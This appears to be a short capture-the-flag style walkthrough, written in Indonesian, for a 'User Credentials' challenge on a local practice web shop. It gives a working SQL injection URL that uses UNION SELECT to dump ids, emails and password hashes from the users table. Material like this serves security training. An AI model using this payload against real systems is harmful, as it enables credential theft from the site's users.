


# User Credentials

Retrieve a list of all user credentials via SQL Injection.

## Steps

Karena diminta untuk mendapatkan list user maka yang tergambar adalah variabel seperti id, email, password. Kita bisa memanfaat payload yang sebelumnya pernah digunakan di DB Schema. Hanya perlu ditambahkan beberapa payload untuk menyesuaikan.

`http://localhost:3000/rest/products/search?q=K')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--`

